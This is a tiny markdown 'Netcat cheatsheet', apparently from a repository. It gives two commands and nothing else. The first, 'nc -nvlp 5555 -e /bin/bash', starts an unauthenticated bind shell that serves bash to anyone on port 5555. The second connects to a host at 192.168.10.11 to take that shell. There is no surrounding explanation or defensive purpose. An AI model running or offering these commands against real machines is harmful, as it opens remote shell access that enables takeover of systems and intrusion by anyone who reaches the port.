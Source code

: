 # Netcat cheatsheet

```sh
nc -nvlp 5555 -e /bin/bash # to listen
nc 192.168.10.11 5555 # to run and execute
```
